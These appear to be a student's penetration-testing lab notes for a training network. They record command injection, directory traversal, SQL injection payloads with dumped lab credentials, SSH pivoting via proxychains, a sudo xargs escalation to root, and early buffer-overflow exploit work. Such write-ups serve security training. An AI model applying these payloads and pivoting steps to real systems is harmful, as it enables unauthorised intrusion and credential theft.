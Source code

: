 HAST-006-M
97dGQEcQWgSxAzo
base64 and rot13 encoding throughout this module
linux - 10.50.31.3
windows - 10.50.44.112
# PART 1
## BOX1 - 10.50.41.56

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /robots.txt: Robots file
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'
|_  /share/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

http://10.50.41.56/Onlinetools/tools.php
select story to read is susceptible to command injection
opened the Possible_end.txt to find middle name of President

http://10.50.41.56/share/Untitled_Diagram.png
see network map
192.168.28.0/27
192.168.28.160/27

by doing ";uname -r" the kernel version is  4.15.0-88-generic 

ls -lisa /var/www/html we see there are a total of 5 directoriess
total 36 drwxr-xr-x 2 root root 4096 Dec 9 2021 Onlinetools 
-rw-r--r-- 1 root root 2806 Nov 23 2021 PE2_style.css 
drwxr-xr-x 2 root root 4096 Dec 9 2021 images 
-rw-r--r-- 1 root root 5448 Nov 23 2021 index.html 
drwxr-xr-x 3 root root 4096 Dec 9 2021 newtest 
-rw-r--r-- 1 root root 38 Nov 23 2021 robots.txt 
drwxr-xr-x 2 root root 4096 Dec 9 2021 share 
drwxr-xr-x 2 root root 4096 Oct 16 02:41 stories
drwxr-xr-x 2 root root 4096 Oct 16 02:41 stories


cat /etc/passwd found comment and home directory to perform ssh key using command injection:
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
www-data:x:33:33:ApjxpkHuatfcMiuWuxdh:/var/www:/bin/sh 
ubuntu:x:1000:1000:Ubuntu:/home/ubuntu:/bin/bash 
openupthedoor:x:1001:1001::/home/openupthedoor:/bin/bash

total 12 drwxrwxr-x 3 root www-data 4096 Dec 9 2021 . 
drwxr-xr-x 14 root root 4096 Dec 9 2021 .. 
drwxr-xr-x 7 root root 4096 Dec 9 2021 html

got on box through a MS tunnel ssh -MS /tmp/mind www-data@10.50.41.56

www-data@ministry-defense-19:~$ for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
64 bytes from 192.168.28.30: icmp_seq=1 ttl=64 time=0.573 ms (IGNORE)
64 bytes from 192.168.28.177: icmp_seq=1 ttl=63 time=1.58 ms
64 bytes from 192.168.28.182: icmp_seq=1 ttl=63 time=2.04 ms
64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.360 ms (IGNORE)

set up a dynamic tunnel 
ssh -S /tmp/mind mind -O forward -D9050

use proxychains nmap to find ports open on new ips 
`student@lin-ops:~$ proxychains nmap -T4 -Pn -sT -v 192.168.28.177,182`

Nmap scan report for 192.168.28.177
Host is up (0.0015s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 192.168.28.182
Host is up (0.0014s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

lets look at port 80 on .182
Nmap scan report for 192.168.28.182
Host is up (0.0060s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /login/: Login page
|   /robots.txt: Robots file
|_  /images/: Potentially interesting directory w/ listing on 'apache/2.4.29 (ubuntu)'

student@lin-ops:~/.ssh$ ssh -S /tmp/mind mind -O forward -L 1500:192.168.28.182:80
launch browser

http://127.0.0.1:1500/Onlinetools/lookup.php? susceptible to directory traversal
../../../../etc/hosts
we find that this device can talk to Defence_Nix1 and find host name resolution question 


http://127.0.0.1:1500/login/loginin.html vulnerable to sql injection
tom' or 1='1
Array
(
    [0] => Msmith
    [name] => Msmith
    [1] => Squanchy
    [password] => Squanchy
)
1Array
(
    [0] => Fpalic
    [name] => Fpalic
    [1] => Birdperson
    [password] => Birdperson
)
1Array
(
    [0] => Kmichae
    [name] => Kmichae
    [1] => MrMeeseeks
    [password] => MrMeeseeks
)

using hyperlink in inital page led to this:
http://127.0.0.1:1500/forces/forcespick.php?Locations=6%20or%201=1
which is suceptible to sql injection

un:Rsanch        pwd:ScaryTerry
un:Msmith        pwd:Squanchy
un:Fpalic        pwd:Birdperson
un:Kmichae       pwd:MrMeeseeks

lets try to brute force either the .177 or .182

student@lin-ops:~/.ssh$ ssh -S /tmp/mind mind -O forward -L 1501:192.168.28.182:22
student@lin-ops:~/.ssh$ ssh -S /tmp/mind mind -O forward -L 1502:192.168.28.177:22

student@lin-ops:~$ ssh Fpalic@127.0.0.1 -p 1502
worked for .177
is the only one that works thus far

sudo -l see can take advantage of xargs
$ sudo xargs -a /root /bin/bash istantly became root hehe

ss -ntlpu found weird 21254 port
tcp      LISTEN     0          1                           0.0.0.0:21254              0.0.0.0:*        users:(("SecurityOnion",pid=1116,fd=3))                                                              
root@defense-nix1-19:/# cat /root/svch0st.sh 
find reference # and nc listener script as we see

root@defense-nix1-19:/home/devops# scp -r RE_this student@10.50.44.112:C:
copied to my windows box, used ghidra to decode it and saw num >> 2 == 21 i used this 
https://bit-calculator.com/bit-shift-calculator to help find that a num that fits the first input is 85 



# PART 2
ping net again
will have creds
see 2 more ips (will include the sql ip as well)
moveup.exe lev for priv escalation 

www-data@ministry-defense-19:~$ for i in {1..254}; do (ping -c 1 192.168.28.$i | grep "bytes from" &); done
64 bytes from 192.168.28.5: icmp_seq=1 ttl=127 time=2.00 ms
64 bytes from 192.168.28.10: icmp_seq=1 ttl=63 time=1.60 ms
64 bytes from 192.168.28.19: icmp_seq=1 ttl=63 time=1.43 ms
64 bytes from 192.168.28.30: icmp_seq=1 ttl=64 time=0.682 ms (IGNORE)
64 bytes from 192.168.28.177: icmp_seq=1 ttl=63 time=1.68 ms 
64 bytes from 192.168.28.182: icmp_seq=1 ttl=63 time=1.68 ms 
64 bytes from 192.168.28.190: icmp_seq=1 ttl=64 time=0.312 ms (IGNORE)

student@lin-ops:~$ proxychains nmap -T4 -Pn -sT -v 192.168.28.5,10,19
Nmap scan report for 192.168.28.5
Host is up (0.0016s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server
9999/tcp open  abyss

Nmap scan report for 192.168.28.10
Host is up (0.0015s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh

Nmap scan report for 192.168.28.19
Host is up (0.0016s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE
22/tcp open  ssh


.5 definetly windows , going to look at the other 2 boxes first 

student@lin-ops:~/.ssh$ ssh -S /tmp/mind mind -O forward -L 1503:192.168.28.10:22
student@lin-ops:~/.ssh$ ssh -S /tmp/mind mind -O forward -L 1504:192.168.28.19:22

un:Rsanch        pwd:ScaryTerry
un:Msmith        pwd:Squanchy
un:Fpalic        pwd:Birdperson
un:Kmichae       pwd:MrMeeseeks

lets try to brute force these

Msmith was used to get into .19 (p1504)
Kmichae was used to get into the .10 (p1503) which immediataely had a flag in the banner upon access
.19 is the r-and-d-nix1-19
.10 is the r-and-d-nix2-19


## nix1 

Msmith@r-and-d-nix1-19:/$ find / -iname "*password*.txt" 2>/dev/null



## nix 2

gdb-peda$ pdisass test
   0x08048508 <+28>:	call   0x8048330 <strcpy@plt>
function in red so the function is strcpy()

after overflowing the exploit_this
we find the EIP value is 0x33624132 = 38 yay

find /b 0xf7ded000, 0xf7ffe000, 0xff, 0xe4


0xf7defb51
0xf7f6474b
0xf7f70753
0xf7f70c6b
